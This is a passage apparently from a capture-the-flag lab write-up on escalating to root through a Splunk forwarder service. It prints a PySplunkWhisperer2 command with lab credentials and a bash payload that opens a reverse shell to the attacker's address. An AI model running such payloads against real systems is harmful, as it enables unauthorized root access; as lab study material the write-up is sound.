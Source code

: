 ![](./IMG/63.png)

> From tcpdump message, I can know the payload script try to established the connection.
> And the ping also executed.
> So, now I try to make another reverse shell back to port 1339

```
python PySplunkWhisperer2_remote.py --host 10.129.2.21 --port 8089 --lport 10.10.17/145 --lport 1338 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'"
```

![](./IMG/64.png)

> Check nc listener 
> Surprised, I get reverse shell, and the user is root.
> I think the reason is the splunk service launched by root user.
